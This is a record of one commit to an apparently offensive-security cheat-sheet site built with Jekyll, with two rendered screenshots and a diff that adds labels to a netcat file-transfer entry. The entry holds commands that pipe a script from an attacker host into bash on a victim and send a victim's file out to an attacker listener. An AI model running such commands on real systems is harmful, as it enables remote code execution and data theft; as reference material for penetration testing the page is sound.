

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/netcat-copy_file.md, in a window 1280 px wide, cut to the strip 187-807 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update netcat

````diff
--- a/_wadcoms/netcat-copy_file.md
+++ b/_wadcoms/netcat-copy_file.md
@@ -6,8 +6,10 @@ description: |
 
   	File to copy: linpeas.sh
 
+    Copy from attacker to victim:
     ```nc -lvnp 9001 < linpeas.sh (attacker)``` & ```nc 10.10.21.14 9001 | bash (victim)```
 
+    Copy from victim to attacker:
     ```nc 10.10.21.14 9001 < file.txt (victim)``` & ```nc -lvnp 9001 > file.txt (attacker)```
 
 command: |
````
